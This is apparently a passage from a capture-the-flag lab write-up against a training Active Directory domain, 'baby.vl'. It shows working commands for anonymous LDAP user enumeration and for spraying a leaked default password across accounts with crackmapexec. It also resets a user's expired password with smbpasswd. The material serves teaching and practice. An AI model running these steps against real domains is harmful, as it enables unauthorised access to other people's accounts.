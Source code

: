 Let's adjust our LDAP search query so we can create a user list.

```Kali
└─$ ldapsearch -x -H ldap://BabyDC.baby.vl:389 -D '' -w '' -b "DC=baby,DC=vl" | grep '@baby.vl' | awk '{print $2}' | cut -d '@' -f 1 > ul.txt; cat ul.txt

Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
```

I was getting ready to run some tests using this wordlist, but if you do a quick check over the LDAP dump you'll see that we missed a few users. I wasn't certain if this was an LDAP issue or a `grep` issue, but nonetheless I copied the remaining users into the wordlist. (`Caroline.Robinson` and `Ian.Walker`)

You'll notice at the end of the same full LDAP dump output under `Teresa.Bell`, there seems to be a description comment that says `description: Set initial password to [...snip...`.

We can infer based on the message that this is the initial password for users when they are created. Now that we have a list of users and a potential password, we can use `crackmapexec` to test if any users have this password still set to their account. We'll use SMB as our service to test against since we really don't need to query anything for LDAP anymore (since we can already dump the entire domain with null credentials).

```Kali
└─$ for user in $(cat ul.txt); do crackmapexec smb BabyDC.baby.vl -u $user -p 'BabyStart123!'; done

[...snip...]
SMB         BabyDC.baby.vl  445    BABYDC           [-] baby.vl\Caroline.Robinson:[...snip...] STATUS_PASSWORD_MUST_CHANGE
[...snip...]
```

You'll notice that we'll get a hit on `Caroline.Robinson`, stating that their password needs to change. This more than likely is notifying us that the user has not done their initial authentication to the domain yet or that they have gone past the password reset policy deadline. This can be the case with new employees and/or interns.

# Password Reset with SMBPasswd

In that case let's try to reset their password with `smbpasswd`. The only pre-reqs to this is that we specify the username and the specific remote machine we want to change it for.

```Kali
smbpasswd -r BabyDC.baby.vl -U BABYDC/'Caroline.Robinson'

Old SMB password: ([...snip...])
New SMB password: password123@
Retype new SMB password: password123@
Password changed for user Caroline.Robinson
```
